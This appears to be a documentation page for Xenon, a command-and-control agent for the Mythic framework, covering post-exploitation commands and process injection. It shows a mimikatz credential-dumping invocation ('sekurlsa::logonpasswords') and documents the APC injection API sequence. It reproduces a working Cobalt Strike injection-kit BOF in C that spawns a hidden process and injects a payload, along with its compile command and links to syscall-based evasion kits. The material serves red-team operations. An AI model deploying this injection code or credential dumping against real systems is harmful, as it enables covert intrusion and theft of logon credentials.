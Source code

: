 +++
title = "OPSEC"
chapter = true
weight = 100
+++

![logo](/agents/xenon/Xenon.png?width=600px)

## Fork & Run Commands
These commands spawn a sacrificial process to perform their actions and call `inject_shellcode` under the hood using donut-shellcode. 
They are compatible with Cobalt Strike's Process Injection Kits.

| Command                  | Usage                                                         | Description |
|--------------------------|---------------------------------------------------------------|-------------|
| `mimikatz`          | `mimikatz [args]`                                               | Execute mimikatz on the host. (e.g., mimikatz sekurlsa::logonpasswords) OPSEC Warning: Uses donut shellcode. |
| `execute_assembly` | `execute_assembly -Assembly [SharpUp.exe] [-Arguments [assembly arguments]]` | Execute a .NET Assembly in a remote processes and retrieve the output. OPSEC Warning: Uses donut shellcode. |

## Process Injection Kit
You can read about Cobalt Strike's Process Injection Kit [here](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5).
It allows the operator to modify the default behavior for Fork & Run post-ex commands. This provided the flexibility needed and allowed operators to Bring Your Own Process Injection.
Xenon's default process injection technique is the classic APC injection.
It follows a well signatured process of: `CreateProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`, `QueueUserAPC`, and finally `ResumeThread`.

### Bring Your Own Process Injection
The command `register_process_inject_kit` allows you to enable a custom process injection technique in the running payload. Process Injection Kit's are implemented as Beacon Object Files (BOFs) and uploaded through the modal.

Currently only **PROCESS_INJECT_SPAWN** is supported which spawns a sacrificial process to perform process injection.

Here is a basic example from [Cobalt Strike](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5):
```C
#include <windows.h>
#include "beacon.h"

/* is this an x64 BOF */
BOOL is_x64() {
#if defined _M_X64
   return TRUE;
#elif defined _M_IX86
   return FALSE;
#endif
}

/* See gox86 and gox64 entry points */
void go(char * args, int alen, BOOL x86) {
   STARTUPINFOA        si;
   PROCESS_INFORMATION pi;
   datap               parser;
   short               ignoreToken;
   char *              dllPtr;
   int                 dllLen;

   /* Warn about crossing to another architecture. */
   if (!is_x64() && x86 == FALSE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x86 -> x64");
   }
   if (is_x64() && x86 == TRUE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x64 -> x86");
   }

   /* Extract the arguments */
   BeaconDataParse(&parser, args, alen);
   ignoreToken = BeaconDataShort(&parser);
   dllPtr = BeaconDataExtract(&parser, &dllLen);

   /* zero out these data structures */
   __stosb((void *)&si, 0, sizeof(STARTUPINFO));
   __stosb((void *)&pi, 0, sizeof(PROCESS_INFORMATION));

   /* setup the other values in our startup info structure */
   si.dwFlags = STARTF_USESHOWWINDOW;
   si.wShowWindow = SW_HIDE;
   si.cb = sizeof(STARTUPINFO);

   /* Ready to go: spawn, inject and cleanup */
   if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) {
      BeaconPrintf(CALLBACK_ERROR, "Unable to spawn %s temporary process.", x86 ? "x86" : "x64");
      return;
   }
   BeaconInjectTemporaryProcess(&pi, dllPtr, dllLen, 0, NULL, 0);
   BeaconCleanupProcess(&pi);
}

void gox86(char * args, int alen) {
   go(args, alen, TRUE);
}

void gox64(char * args, int alen) {
   go(args, alen, FALSE);
}
```
This example is essentially the same behavior as Xenon's default process injection method. It can be easily modified to change the injection behavior to something custom, and that's where the advantage is. Additionally, with `register_process_inject_kit` the injection behavior can be changed an infinite amount in the running payload without compiling a new payload.

You can compile this as a BOF with the following:
```
x86_64-w64-mingw32-gcc -o inject_spawn.x64.o -c inject_spawn.c 
```
Then register the new kit with the `register_process_inject_kit` command to the Mythic server. Now commands that call `inject_shellcode` will use your new process injection behavior!

### Examples
Here are some real-world examples of modified injection kits:
- [InjectKit](https://github.com/REDMED-X/InjectKit) - Indirect syscalls via the Tartarus' Gate method.
- [secinject](https://github.com/apokryptein/secinject) - Section Mapping Process Injection (secinject): Cobalt Strike BOF 
- [CB_process_Inject](https://github.com/vgeorgiev90/CB_process_Inject) - A simple process injection kit for cobalt strike based on syscalls 

